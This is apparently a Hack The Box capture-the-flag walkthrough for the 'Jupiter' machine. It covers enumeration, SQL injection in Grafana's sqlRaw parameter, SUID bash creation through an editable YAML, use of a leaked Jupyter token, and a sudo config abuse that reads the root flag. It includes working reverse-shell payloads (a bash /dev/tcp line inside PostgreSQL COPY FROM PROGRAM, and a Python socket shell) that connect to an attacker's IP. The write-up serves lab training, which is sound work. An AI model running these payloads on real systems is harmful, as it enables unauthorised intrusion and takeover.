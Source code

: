 # Jupiter

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Jupiter
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.216

Discovered open port 22/tcp on 10.10.11.216
Discovered open port 80/tcp on 10.10.11.216
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.216

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://jupiter.htb/

Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
```
</details>

<details>
<summary>dir (<code>jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://jupiter.htb/'

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]
```
</details>

<details>
<summary>dir (<code>kiosk.jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://kiosk.jupiter.htb/'

/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]
/org                  (Status: 302) [Size: 24] [--> /]
/logout               (Status: 302) [Size: 29] [--> /login]
/explore              (Status: 302) [Size: 24] [--> /]
/monitoring           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 100948]
/configuration        (Status: 302) [Size: 24] [--> /]
/connections          (Status: 302) [Size: 24] [--> /]
/styleguide           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/alerting             (Status: 200) [Size: 34390]
```
</details>

## Foothold

### Web → `postgres-user`

#### Searching for Vulnerabilities

- when accessing the Grafana instance at `kiosk.jupiter.htb`, several POST requests are sent to the server (can be intercepted with burpsuite)
- the POST request to `/api/ds/query` contains the parameter `sqlRaw`
- `sqlmap -r request` shows that `sqlRaw` is injectable
    - DBMS appears to be **PostgreSQL > 8.1**
    - unfortunately the `--os-shell` is extremly slow and therefore unusable

#### Exploitation

1. Start a reverse shell listener using netcat:
   
    ```
    nc -lvnp 9002
    ```
2. We can perform the SQL injection manually by setting the `sqlRaw` parameter to the following value:

    ```
    COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1\"';
    ```
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

3. We now have reverse shell access for user `postgres-user`!

## Lateral Movement

### `postgres-user` → `juno` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` indicates that there are two user accounts with a home directory:
    
    ```
    juno:x:1000:1000:juno:/home/juno:/bin/bash
    jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
    ```
- `find / -user juno 2>/dev/null` will show that `juno` is the owner of the files in `/dev/shm/`
- `/dev/shm/network-simulation.yml` can be edited and contains commands that are run periodically

#### Exploitation

1. Edit `network-simulation.yml` so that a bash with SUID-bit set for `juno` will get created in `/tmp`:
    
    ```yaml
    server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
        args: /bin/bash /tmp/bash
        start_time: 3s
    # three hosts with hostnames 'client1', 'client2', and 'client3'
    client:
        network_node_id: 0
        quantity: 3
        processes:
        - path: /usr/bin/chmod
        args: u+s /tmp/bash
        start_time: 5s
    ```
2. After a while `/tmp/bash` will get created. We can start a bash as `juno` by running `/tmp/bash -p`. Unfortunately `user.txt` cannot be accessed yet.
3. After adding my SSH public key in `/home/juno/.ssh/authorized_keys`, we can log in as `juno` via SSH and access the user flag! 🚩

### `juno` → `jovian`

#### Searching for Vulnerabilities

- `ss -tlp` shows that there are tcp ports `3000` and `8888` open locally
- By using the SSH port forwarding feature, we can scan these ports using nmap:

    ```
    ssh -L 3000:localhost:3000 juno@10.10.11.216
    ssh -L 8888:localhost:8888 juno@10.10.11.216    
    ```
    - <details>
        <summary>nmap output</summary>
        
        ```
        PORT     STATE SERVICE VERSION
        3000/tcp open  ppp?
        | fingerprint-strings:
        |   GenericLines, Help:
        |     HTTP/1.1 400 Bad Request
        |     Content-Type: text/plain; charset=utf-8
        |     Connection: close
        |     Request
        |   GetRequest:
        |     HTTP/1.0 200 OK
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:48 GMT
        |     <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" content=
        |   HTTPOptions:
        |     HTTP/1.0 404 Not Found
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:53 GMT
        |_    <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" c
        8888/tcp open  http    Tornado httpd 6.2
        | http-title: Jupyter Notebook
        |_Requested resource was /login?next=%2Ftree%3F
        |_http-server-header: TornadoServer/6.2
        | http-robots.txt: 1 disallowed entry
        |_/
        ```
        </details>

    - Port `3000` seems to be the Grafana instance
    - Port `8888` is a Jupyter notebook 

#### Exploitation

1. When opening the Jupyter webinteface under `localhost:8888`, a token must be entered, which can be found in `/opt/solar-flares/logs/jupyter-2023-09-07-15.log`.
    - Token: `ecae914aaaf6c419b40775ad51f07e7d3aece17a93e7104`
2. Start a reverse shell listener using netcat:
    
    ```
    nc -lvnp 9002
    ```
3. After entering the token, a new Jupyter notebook can be created and the payload for a reverse shell can be executed in a cell:
    
    ```python
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
    ```
4. We now have reverse shell access for `jovian`.


## Privilege Escalation

### `jovian` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `/usr/local/bin/sattrack` binary with sudo
- executing `/usr/local/bin/sattrack` gives an error message stating that a `/tmp/config.json` is required

#### Exploitation

1. A working configuration file can be found under `/usr/local/share/sattrack/config.json`, which can be copied to `/tmp/config.json`.
2. We can modify the configuration file `/tmp/config.json` so that the program outputs the root flag:
    
    ```json
    "tlesources": [
        "file:///root/root.txt",
    ],
    ```
3. After executing `sudo /usr/local/bin/sattrack`, we can find the root flag in `/tmp/tle/root.txt`! 🏁